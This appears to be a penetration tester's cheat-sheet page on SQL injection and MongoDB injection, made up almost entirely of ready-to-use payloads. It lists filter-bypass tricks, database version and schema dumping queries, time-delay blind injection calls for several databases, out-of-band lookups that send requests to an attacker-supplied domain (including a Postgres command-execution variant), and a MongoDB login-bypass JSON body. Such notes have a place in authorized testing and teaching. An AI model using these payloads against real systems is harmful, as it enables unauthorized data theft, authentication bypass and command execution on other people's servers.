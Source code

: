 # Sql Injection
*Exploit [[3. Methodology/3.2 Exploitation/SQL Injection]]*
## Quick Tests
**Check if input breaks request**
- `-- -`
- `#`
- String -> `||<SLEEP>`
- Integer -> `<SLEEP>`
## Bypass
### Trailing Data with Comments
- Oracle / Microsoft / Postgres - `--COMMENT` `/*COMMENT*/`
- MySQL / MariaDB - `#COMMENT` `-- COMMENT` `/*COMMENT*/`

### Spaces
- Postgres / MySQL / MariaDB - `--SELECT/**/1`

### Quotes
- Postgres - `SELECT $$<COLUMN>$$`

### Keywords
- Postgres - `CHR(65)||CHR(66)||CHR(67)||CHR(68)||CHR(69)||CHR(70)||CHR(71)||CHR(72);`

## POC
### Database Name / Version
- Oracle - `SELECT banner FROM v$version` `SELECT version FROM v$instance`
- Microsoft / MySql / MariaDB - `SELECT @@version`
- Postgres - `SELECT version()`

### Dumping Table / Column Names
- Oracle - `SELECT * FROM all_tables` `SELECT * FROM all_tab_columns WHERE table_name = <TABLE>`
- Microsoft / Postgres / MySql / MariaDB - `SELECT * FROM information_schema.tables` `SELECT * FROM information_schema.columns WHERE table_name = <TABLE>`

## Blind POC
### Time Delays (Blind Injection)
*Exploit [[3. Methodology/3.2 Exploitation/SQL Injection#Conditionals]]*
- Oracle - `dbms_pipe.receive_message(('a'),10)`
- Microsoft - `WAITFOR DELAY '0:0:10'`
- Postgres - `pg_sleep(10)`
- MySql / MariaDB - `sleep(10)`

### DNS Lookup (Blind Injection)
*Exploit [[3. Methodology/3.2 Exploitation/SQL Injection#DNS with Data Exfiltration]]

- Oracle (v11.2.0.3 - v12.1.0.2) - `SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "<URL>/"> %remote;]>'),'/l') FROM dual`
- Oracle (Elevated privileges) - `SELECT UTL_INADDR.get_host_address('<DOMAIN>')`
- Microsoft - `exec master..xp_dirtree '//<DOMAIN>/a'`
- Postgres - `copy (SELECT '') to program 'nslookup <DOMAIN>'`
- MySql / MariaDB (Windows only) - `LOAD_FILE('\\\\<DOMAIN>\\a')` `SELECT ... INTO OUTFILE '\\\\<DOMAIN>\a'`


# MongoDB
**Set Content-Type to `application/json`**
```
{
	"user": "user",
	"password": {
		"$ne": "blah",
		"$regex": ".**"
	}
}
```